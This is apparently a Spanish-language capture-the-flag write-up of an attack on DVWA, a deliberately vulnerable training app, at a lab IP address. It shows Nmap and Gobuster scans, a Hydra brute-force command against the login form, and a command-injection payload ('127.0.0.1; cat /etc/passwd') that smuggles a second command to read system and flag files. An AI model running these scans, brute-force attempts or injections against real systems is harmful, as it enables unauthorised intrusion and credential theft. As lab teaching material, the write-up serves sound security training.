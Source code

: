 # 🛡️ Manual de Pentesting: Captura de Flag en DVWA - Escaneo, Enumeración y Command Injection

## 1. Escaneo de Puertos y Servicios

Comenzamos identificando los puertos abiertos del objetivo (`10.10.120.231`) usando **Nmap**:

```bash
sudo nmap 10.10.120.231 -n -Pn -sC -sV -sS --min-rate 5000 -oN scan1.txt
```

✅ Resultado:

- **Puerto 80/tcp abierto** (Servidor Apache 2.4.59 Debian)
- Página por defecto de Apache.

---

## 2. Enumeración de Directorios

Utilizamos **Gobuster** para encontrar rutas y archivos ocultos:

```bash
gobuster dir -u http://10.10.120.231 -w /usr/share/wordlists/dirb/common.txt -t 50 -x php,html,txt
```

✅ Descubrimiento:

- `/index.html`
- `/server-status` (403 Forbidden)
- No descubrimos `/dvwa/` inicialmente.

---

## 3. Fuerza Bruta de Acceso

Usamos **Hydra** para atacar el formulario de login de DVWA:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.120.231 http-post-form "/DVWA/login.php:username=^USER^&password=^PASS^&Login=Login failed"
```

✅ Usuarios y contraseñas válidas encontrados, por ejemplo:

- `admin:password`
- `admin:123456`
- `admin:iloveyou`
- (entre otros...)

---

## 4. Vulnerabilidad de Command Injection

Dentro de DVWA, en el módulo **Command Injection**, enviamos payloads maliciosos:

```bash
127.0.0.1; cat /etc/passwd
```

✅ Confirmamos ejecución de comandos en el sistema bajo el usuario `www-data`.

---

## 5. Búsqueda de Flags

Desde la web vulnerable, buscamos archivos relacionados a **flags**:

```bash
find / -name "*flag*" 2>/dev/null
```

✅ Hallazgo:

```
/var/www/html/DVWA/hackable/flags/fi.php
```

---

## 6. Captura del Flag

Leímos el contenido de `fi.php`:

```bash
127.0.0.1; cat /var/www/html/DVWA/hackable/flags/fi.php
```

Encontramos un texto codificado en **Base64**.

Contenido concatenado del código PHP:

```
NC4pIFRoZSBwb29sIG9uIFRoZSByb29mIG11c3QgaGF2ZSBhIGxlYWs=
```

Decodificando:

```bash
echo "NC4pIFRoZSBwb29sIG9uIFRoZSByb29mIG11c3QgaGF2ZSBhIGxlYWs=" | base64 -d
```

✅ Resultado del Flag:

```
4.) The pool on The roof must have a leak.
```

---

# 🌟 Conclusión

- **Explotación lograda**: Command Injection.
- **Flag capturada**: "The pool on The roof must have a leak."
- **Acceso obtenido**: ejecución remota de comandos como `www-data`.
- **Relevancia**: demuestra acceso a información sensible a través de explotación web.

---

# 📆 Anotaciones finales

| Concepto | Herramienta usada |
|:---------|:------------------|
| Escaneo de puertos | Nmap |
| Enumeración de rutas | Gobuster |
| Fuerza bruta de login | Hydra |
| Explotación de comandos | Payload manual en DVWA |
| Búsqueda de archivos sensibles | find, cat |
| Decodificación de Base64 | echo + base64 -d |

---

# 📦 Flag Capturada

> **4.) The pool on The roof must have a leak.**

🚩 **¡Éxito en la captura de la primera bandera!**

